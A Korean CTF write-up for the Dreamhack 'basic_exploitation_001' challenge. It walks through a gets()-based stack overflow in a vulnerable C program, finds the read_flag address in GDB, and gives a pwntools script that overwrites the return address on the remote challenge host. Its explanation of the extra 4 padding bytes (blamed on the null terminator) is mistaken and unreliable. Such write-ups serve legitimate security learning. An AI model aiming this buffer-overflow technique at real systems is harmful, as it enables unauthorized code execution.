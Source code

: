 ```yaml
---
layout: single
title:  "Wargame : basic_exploitation_001"
categories: coding
tag: [python, blog, jekyll]
toc: true
author_profile: false
---
```


<head>
  <style>
    table.dataframe {
      white-space: normal;
      width: 100%;
      height: 240px;
      display: block;
      overflow: auto;
      font-family: Arial, sans-serif;
      font-size: 0.9rem;
      line-height: 20px;
      text-align: center;
      border: 0px !important;
    }

    table.dataframe th {
      text-align: center;
      font-weight: bold;
      padding: 8px;
    }

    table.dataframe td {
      text-align: center;
      padding: 8px;
    }

    table.dataframe tr:hover {
      background: #b8d1f3; 
    }

    .output_prompt {
      overflow: auto;
      font-size: 0.9rem;
      line-height: 1.45;
      border-radius: 0.3rem;
      -webkit-overflow-scrolling: touch;
      padding: 0.8rem;
      margin-top: 0;
      margin-bottom: 15px;
      font: 1rem Consolas, "Liberation Mono", Menlo, Courier, monospace;
      color: $code-text-color;
      border: solid 1px $border-color;
      border-radius: 0.3rem;
      word-break: normal;
      white-space: pre;
    }

  .dataframe tbody tr th:only-of-type {
      vertical-align: middle;
  }

  .dataframe tbody tr th {
      vertical-align: top;
  }

  .dataframe thead th {
      text-align: center !important;
      padding: 8px;
  }

  .page__content p {
      margin: 0 0 0px !important;
  }

  .page__content p > strong {
    font-size: 0.8rem !important;
  }

  </style>
</head>


## C 코드 분석


```c

#include <stdio.h>

#include <stdlib.h>

#include <signal.h>

#include <unistd.h>





void alarm_handler() {

    puts("TIME OUT");

    exit(-1);

}





void initialize() {

    setvbuf(stdin, NULL, _IONBF, 0);

    setvbuf(stdout, NULL, _IONBF, 0);



    signal(SIGALRM, alarm_handler);

    alarm(30);

}





void read_flag() {

    system("cat /flag");

}



int main(int argc, char *argv[]) {



    char buf[0x80];



    initialize();

    

    gets(buf);



    return 0;

}

```


### main() 함수 분석


배열을 크기 0x80(128 byte)만큼 할당한다.



initialize() 함수는 입/출력 버퍼를 비활성화시키고, 프로그램의 실행시간을 30초로 제한하는 함수이다.



gets(buf) 부분에서 익스플로잇이 가능하다.



입력값의 크기를 제한하지 않았기 때문에 해당 부분에 취약점이 있는 것을 알 수 있다.



익스플로잇 방법은 gets()부분 입력값으로 128 byte + 4 byte = 132 byte를 아무 의미없는 문자열 입력 후, read_flag() 함수의 주소를 입력하여 read_flag()가 return 되도록 코드를 작성한다.



추가로 4 byte를 입력해 주는 이유는, gets()함수 특성 상 문자열을 입력받은 후 널 종료 문자로 끝나도록 하기 때문에 1 byte가 추가로 할당된다.



추가로 할당된 1 byte는 스택 메모리에 추가적으로 저장될 때 4 byte(1 word)씩 저장되기 때문에 4 byte를 추가로 할당해야 한다.


## GDB 디버깅


가장 먼저 read_flag의 주소를 살펴본다.



GDB 디버깅을 들어가서 info fuc으로 함수의 주소를 추적한다.



밑에서 보는바와 같이 read_flag의 주소는 '0x080485b9' 이다.


다음으로는, 위에서 설명하였던 4 byte가 추가되는 것을 이해하기 쉽도록 디버깅 모드로 들어가서 확인해 본다.



보다시피, [ebp - 0x80] 에서 할당된 0x80 뿐만 아니라 밑에 add exp, 4 에서 4 byte가 추가로 할당된 것을 볼 수 있다.


## Pwn 코드


```python

from pwn import *



p = remote("host3.dreamhack.games", 11188)



payload = b'A' * 0x80

payload += b'A' * 4

payload += p32(0x080485b9)

# read_flag의 주소를 패킹하여 payload에 더한다.



p.sendline(payload)

p.interactive()

```

